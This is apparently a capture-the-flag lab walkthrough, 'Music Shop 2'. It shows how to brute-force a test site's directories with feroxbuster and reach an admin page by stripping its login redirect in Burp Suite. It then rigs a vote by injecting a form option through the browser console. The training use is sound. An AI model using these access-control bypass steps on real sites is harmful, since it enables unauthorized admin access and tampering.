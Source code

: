 # Challenge #3 - Music Shop 2

## Credentials

Username: Mario
Password: pass123

## Objectives

- You are called to uncover any other potential vector an attacker could use to alter the music chart.
- Demonstrate you can fake the voting system by defeating Justin Bieber

## Hints

- Recommended tools
  - Burps suite
  - Web Browser
- Missing Function Level Access Control 

## What you will learn

- How to inspect web applications for security misconfigurations
- How to test website redirects
- How to use Burp Suite Match and replace feature

## Steps

You need to discover there can be that "Missing Function Level Access Control". Send the command below to start feroxbuster brute force on the target.

```
feroxbuster -u http://2.challenge.auth.site -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php -C 403

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2.challenge.auth.site
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      330c http://2.challenge.auth.site/admin
200        0l        0w        0c http://2.challenge.auth.site/config.php
301        9l       28w      331c http://2.challenge.auth.site/images
200      146l      255w     3616c http://2.challenge.auth.site/index.php
200       55l      104w     1367c http://2.challenge.auth.site/login.php
302        1l        3w       52c http://2.challenge.auth.site/logout.php
302       74l      118w     1679c http://2.challenge.auth.site/admin/index.php
200       59l      100w     1380c http://2.challenge.auth.site/admin/login.php
301        9l       28w      337c http://2.challenge.auth.site/images/bands
200       47l      182w     9184c http://2.challenge.auth.site/images/bands/1
200       60l      332w    16566c http://2.challenge.auth.site/images/bands/10
200       47l      242w    12356c http://2.challenge.auth.site/images/bands/2
200      429l      969w    59501c http://2.challenge.auth.site/images/bands/3
200       29l      181w     8748c http://2.challenge.auth.site/images/bands/4
200       56l      365w    19933c http://2.challenge.auth.site/images/bands/5
200      197l     1135w    60486c http://2.challenge.auth.site/images/bands/7
200      674l     3578w   114572c http://2.challenge.auth.site/images/bands/6
200      100l      604w    27185c http://2.challenge.auth.site/images/bands/9
200      895l     4226w   192121c http://2.challenge.auth.site/images/bands/8
200      232l      482w     3650c http://2.challenge.auth.site/style
302        0l        0w        0c http://2.challenge.auth.site/vote.php
200      201l     1517w    80366c http://2.challenge.auth.site/images/header
200       64l      453w    16562c http://2.challenge.auth.site/images/logo
[####################] - 2m    163800/163800  0s      found:23      errors:85     
[####################] - 1m     40950/40950   485/s   http://2.challenge.auth.site
[####################] - 1m     40950/40950   509/s   http://2.challenge.auth.site/admin
[####################] - 1m     40950/40950   490/s   http://2.challenge.auth.site/images
[####################] - 1m     40950/40950   507/s   http://2.challenge.auth.site/images/bands
```

With burp suite turned on open the admin page on the browser.

```
http://2.challenge.auth.site/admin/index.php
```

You will be redirect to the admin login page. Look on burp history. You will notice that the index.php has one header location and also all the administrative content.

In burp suite go to proxy options, them to match and replace settings. Click in add and fill the as follow.

```
Type: Response header
Match: Location: login.php
Replace: Leave empty
Regex match: Unchecked
```

This will replace the header "Location: login.php" in any reponse to nothing. Make sure that the rule is enabled.

On the browser open the admin page one more time.

```
http://2.challenge.auth.site/admin/index.php
```

This time the page will open without redirecto to login.

Open the browser javascript console and send the commands below. Line by line, to create one band option to vote.

```
x = document.forms[0].band_id;
option = document.createElement("option")
option.text = '10';
x.add(option);
```

Now fill the votes number and send submit the form.
